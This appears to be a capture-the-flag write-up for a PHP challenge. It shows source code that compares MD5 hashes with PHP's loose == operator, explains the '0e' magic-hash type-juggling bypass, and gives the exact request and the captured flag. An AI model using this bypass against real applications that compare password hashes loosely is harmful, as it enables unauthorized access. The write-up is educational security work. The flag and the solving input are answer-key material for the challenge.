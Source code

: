 # Wildest Dreams Part 2

> The opener is back for another round of fun. Enjoy\
> \
> http://chals.ctf.sg:40401\
> \
> author: Gladiator

Taking a look at the source, we see that we have to attack the following PHP code:

```php
<?php
	if(!empty($_GET['i1']) && !empty($_GET['i2'])){
		$i1 = $_GET['i1'];
		$i2 = $_GET['i2'];
		var_dump(md5($i1) == md5($i2));
		if($i1 === $i2){
			die("i1 and i2 can't be the same!");
		}
		$len1 = strlen($i1);
		$len2 = strlen($i2);
		if($len1 < 15){
			die("i1 is too shorttttttt pee pee pee pee pee");
		}
		if($len2 < 15){
			die("i2 is too shorttttttt pee pee pee pee pee");
		}
		if(md5($i1) == md5($i2)){
			echo $flag;
		}
		echo "<br>The more that you say, the less i know.";
	} else {
		echo "<br> You need to provide two strings, i1 and i2. /1989.php?i1=a&i2=b";
	}
?>
```

We are essentially looking for two strings whose MD5 hashes are "equal" to each other. In PHP, `==` (as opposed to `===`) means that we are using loose comparison. In particular, when a string starts with `0e...`, PHP will treat it as a float with value 0.0 (following scientific notation).

```bash
$ php -r "var_dump('0e1' == 0.0);"
bool(true)
$ php -r "var_dump('0e1' == '0e2');"
bool(true)
```

The result of this is that there are "magic hashes" that are considered equal to each other, and nice [lists](https://github.com/spaze/hashes/blob/master/md5.md) of strings that result in these magic hashes.

Using two of these strings with length 15 or more, we can solve this challenge.

`GET /1989.php?i1=hello14916008992&i2=hello14943865304 HTTP/1.1`

The flag is `CTFSG{you_see_me_in_h1nds1ght_tangled_up_with_you_all_night}`
